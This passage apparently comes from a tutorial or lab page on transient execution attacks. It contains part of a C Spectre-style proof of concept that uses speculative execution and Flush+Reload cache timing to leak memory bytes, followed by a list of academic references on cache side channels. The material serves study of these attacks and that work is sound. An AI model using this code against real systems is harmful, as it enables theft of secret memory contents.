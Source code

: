 ```c
    flushSideChannel();
    _mm_mfence();
    
    /* modifies the software stack */
    spectreGadget();
    /* reads the secret */
    s = *ptr;
    /* communicates the secret out */
    temp &= array[s * 512];
}

void readMemoryByte(char *ptr, uint8_t value[2], int score[2], uint64_t cache_hit_threshold) {
    static int results[256];
    int attempts, i, j, k, mix_i;
    unsigned int junk = 0;
    register uint64_t time1, time2;
    volatile uint8_t *addr;

    for (i = 0; i < 256; i++) {
        results[i] = 0;
    }

    for (attempts = 999; attempts > 0; attempts--) {
        spectreAttack(ptr);
        /* real return value is obtained and the misspeculation is squashed */
        for (i = 0; i < 256; i++) {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array[mix_i * 512];
            time1 = __rdtscp(&junk);
            junk = *addr;
            time2 = __rdtscp(&junk) - time1;
            if (time2 <= cache_hit_threshold) {
                results[mix_i]++;
            }
        }

        j = k = -1;
        for (i = 0; i < 256; i++) {
            if (j < 0 || results[i] >= results[j]) {
                k = j;
                j = i;
            } else if (k < 0 || results[i] >= results[k]) {
                k = i;
            }
        }
        if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0)) {
            break;
        }
        results[0] ^= junk;
        value[0] = (uint8_t)j;
        score[0] = results[j];
        value[1] = (uint8_t)k;
        score[1] = results[k];
    }
}

int main()
{
    int i, score[2], len = 43;
    uint8_t value[2];
    unsigned int junk = 0;
    register uint64_t time1, time2 = 0, time3;
    volatile uint8_t *addr;
```

[^intro1]: Claudio Canella, Jo Van Bulck, Michael Schwarz, Moritz Lipp, Benjamin von Berg, Philipp Ortner, Frank Piessens, Dmitry Evtyushkin, and Daniel Gruss, "A Systematic Evaluation of Transient Execution Attacks and Defenses," In *Proceedings of the 28th USENIX Security Symposium*, August 14-16, 2019, Santa Clara, CA, USA.
[^1]: Colin Percival, "Cache Missing for Fun and Profit," In *BSDCan 2005*, Ottawa, CA, 2005.
[^2]: Matt Miller, "Mitigating Speculative Execution Side Channel Hardware Vulnerabilities," [https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/](https://msrc-blog.microsoft.com/2018/03/15/mitigating-speculative-execution-side-channel-hardware-vulnerabilities/), March 15, 2018.
[^3]: Daniel J. Bernstein, "Cache-Timing Attacks on AES," [https://cr.yp.to/antiforgery/cachetiming-20050414.pdf](https://cr.yp.to/antiforgery/cachetiming-20050414.pdf), April 2005.
[^4]: David Gullasch, Endre Bangerter, and Stephen Krenn, "Cache Games &mdash; Bringing Access-Based Cache Attacks on AES to Practice," In *2011 IEEE Symposium on Security and Privacy*, May 22-25, 2011, Oakland, CA, USA.
[^5]: [Eran Tromer](http://www.cs.tau.ac.il/~tromer/cache/), Dag Arne Osvik, and Adi Shamir, "Efficient Cache Attacks on AES, and Countermeasures," *Journal of Cryptology*, Vol. 23, No. 1, 37-71, Springer, 2010.
[^6]: Fangfei Liu, Yuval Yarom, Qian Ge, Gernot Heiser, Ruby B. Lee, "Last-Level Cache Side-Channel Attacks are Practical," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^7]: Gorka Irazoqui, Thomas Eisenbarth, and Berk Sunar, "S&dollar;A: A Shared Cache Attack that Works Across Cores and Defies VM Sandboxing &mdash;&mdash; and its Application to AES," In *2015 IEEE Symposium on Security and Privacy*, May 17-21, 2015, San Jose, CA, USA.
[^8]: Yuval Yarom and Katrina Falkner, "Flush+Reload: A High Resolution, Low Noise, L3 Cache Side-Channel Attack," In *Proceedings of the 23rd USENIX Security Symposium*, August 20-22, 2014, San Diego, CA, USA.
[^9]: Jann Horn, Google Project Zero, "Reading Privileged Memory with a Side-Channel," [https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html](https://googleprojectzero.blogspot.com/2018/01/reading-privileged-memory-with-side.html).
[^10]: Tao Zhang, Kenneth Koltermann, and Dmitry Evtyushkin, "Exploring Branch Predictors for Constructing Transient Execution Trojans," In *ASPLOS'20: Proceedings of the Twenty-Fifth International Conference on Architectural Support for Programming Languages and Operating Systems*, March 16-20, 2020, Lausanne, Switzerland.
[^11]: Nadav Amit, Fred Jacobs, and Michael Wei, "JumpSwitches: Restoring the Performance of Indirect Branches in the Era of Spectre," In *Proceedings of the 2019 USENIX Annual Technical Conference*, July 10-12, 2019, Renton, WA, USA.
[^12]: Dmitry Evtyushkin, Dmitry Ponomarev, and Nael Abu-Ghazaleh, "Jump over ASLR: Attacking Branch Predictors to Bypass ASLR," In *2016 49th Annual IEEE/ACM International Symposium on Microarchitecture (MICRO)*, October 15-19, 2016, Taipei, Taiwan, China.
[^13]: Return Stack Buffer Underflow / CVE-2022-29901, CVE-2022-28693 / INTEL-SA-00702, [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html](https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/return-stack-buffer-underflow.html).
[^14]: Esmaeil Mohammadian Koruyeh, Khaled N. Khasawneh, Chengsu Song, and Nael Abu-Ghazaleh, "Spectre Returns! Speculation Attacks Using the Return Stack Buffer," *WOOT'18: Proceedings of the 12th USENIX Conference on Offensive Technologies*, August 2018.